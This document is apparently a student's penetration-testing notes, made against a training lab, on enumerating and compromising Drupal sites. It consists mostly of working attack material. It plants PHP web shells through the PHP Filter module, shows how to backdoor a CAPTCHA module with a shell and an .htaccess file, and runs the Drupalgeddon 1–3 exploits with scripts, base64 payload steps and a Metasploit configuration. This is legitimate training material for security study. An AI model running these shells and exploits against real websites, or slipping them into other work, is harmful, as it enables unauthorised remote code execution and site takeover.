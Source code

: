 # Discovery and Enumeration
## Discovery
* Look for the header or footer message
```shell
curl -s http://drupal.inlanefreight.local | grep Drupal
```
### Nodes
* Content is index using nodes. 
```URL
http://drupal.inlanefreight.local/node/1
```
### Users
1. Administrators
2. Authenticated User
3. Anonymous
## Enumeration 
* Get the version number:
* Newer versions block access to `CHANGELOG.txt` and `README.txt`
```shell
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```
### Droopescan
```shell
droopescan scan drupal -u http://drupal.inlanefreight.local
```

# Attacking Drupal
## Leveraging the PHP Filter Module
### Pre-Version 8
* On older version you can enable `PHP Filter` module.
* Navigate to `Content > Add Content > Basic Page`
```php
<?php
system($_GET['cmd']);
?>
```
* Make the text format PHP `code`
```shell
curl -s http://drupal-qa.inlanefreight.local/node/3?cmd=id | grep uid | cut -f4 -d">"
```
### Post-Version 8
* Post version 8 the `PHP Filter` module is not installed by default. 
* Download and install manually:
```shell
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```
* Navigate to `Administration > Reports > Available Updates > Browser > Install`
* Create a basic script and select `PHP code`
```php
<?php
system($_GET['cmd']);
?>
```
## Uploading a Backdoored Module 
* If you have appropriate permissions you can upload a new module with a backdoor.
### Example
* Download the CAPTCHA module
```shell
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```
* Add a WebShell within the contents:
```php
<?php
system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);
?>
```
* Create a `.htaccess` file: 
* This gives access to the `/modules` folder
```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```
* Copy both files and archive the folder:
```shell
 mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```
* `Manage > Extend > Install New Module > Install`
```shell
 curl -s drupal.inlanefreight.local/modules/captcha/shell.php?cmd=id
```
## Known Vulnerabilities 
* RCE vulnerabilities are known `DrupalGeddon`
### DrupalGeddon1 
https://www.exploit-db.com/exploits/34992
Example:
```shell
python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```
* Can also be done with metasploit
* `exploit/multi/http/drupal_drupageddon`
### DrupalGeddon2
https://www.exploit-db.com/exploits/44448
```shell
python3 drupalgeddon2.py 
```
Test
```shell
curl -s http://drupal-dev.inlanefreight.local/hello.txt
```
Modify the exploit:
```shell
echo '<?php system($_GET[cmd]);?>' | base64
```
```shell
 echo <base64> | base64 -d | tee shell.php
```
```shell
python3 drupalgeddon2.py 
```
### DrupalGeddon3
https://github.com/rithchard/Drupalgeddon3
* Requires a user to have the ability to delete a node.
* Can be exploited by metasploit, but you need a session cookie 
* Login in as user and copy the cookie.
```shell
use multi/http/drupal_drupageddon3
set rhosts 10.129.42.195
set VHOST drupal-acc.inlanefreight.local   
set drupal_session <session_cookie>
set DRUPAL_NODE 1
set LHOST 10.10.14.15
show options 
```

